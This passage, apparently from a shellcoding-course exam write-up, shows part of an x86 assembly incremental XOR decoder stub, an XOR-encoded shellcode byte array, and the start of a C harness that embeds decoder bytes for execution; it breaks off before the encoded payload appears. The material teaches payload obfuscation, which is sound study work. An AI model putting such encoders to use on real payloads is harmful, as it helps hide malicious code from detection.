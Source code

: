 ```
    push edx ; store for next loop
    call EncodedShellcode ; call decoded buffer
call_get_pc:
    call get_pc

; Sample without Encryption
; EncodedShellcode: db 0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0xC3,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0xC3,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0xC3,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0xC3,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0xC3,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0xC3,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0xC3,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90
; Encoded shellcode with Xor
EncodedShellcode: db 0xca,0x27,0xe6,0x95,0xd4,0xc8,0xc5,0x95,0x93,0xc8,0xd4,0x94,0x95,0x6e,0x55,0xad,0x72,0x05,0xe5,0x74,0x1a,0x57,0xbd,0x30,0x7b,0x77,0x26,0x6d
```

Wrapping all together in a c program:

```
// Filename: shellcode.c
// Author:  SLAE-935
//
// Purpose: Execute the incremental decoder stub on the partial xored chunk of encoded shellcode

#include<stdio.h>
#include<string.h>
unsigned char code[] = \
// Sample without Encryption: "\xbb\xfb\xe7\xb6\xfd\x53\x31\xd2\x52\x5a\x5b\xeb\x45\x5f\x31\xc9\x39\xca\x74\x26\x31\xc9\x8a\x0d\x47\x82\x04\x08\x53\x52\x89\xd6\x0f\xaf\xf1\xc1\xe6\x02\x01\xfe\x89\xcb\x80\xeb\x01\xc1\xe3\x02\x8b\x14\x1e\x89\x14\x1f\xe2\xf0\x5a\x5b\x31\xc9\x8a\x0d\x47\x82\x04\x08\x31\x5c\x8f\xfc\xe2\xfa\x03\x1f\x53\x42\x52\xe8\x05\x00\x00\x00\xe8\xb6\xff\xff\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x0c";
// Decoder Stub + Encoded shellcode with Xor:
```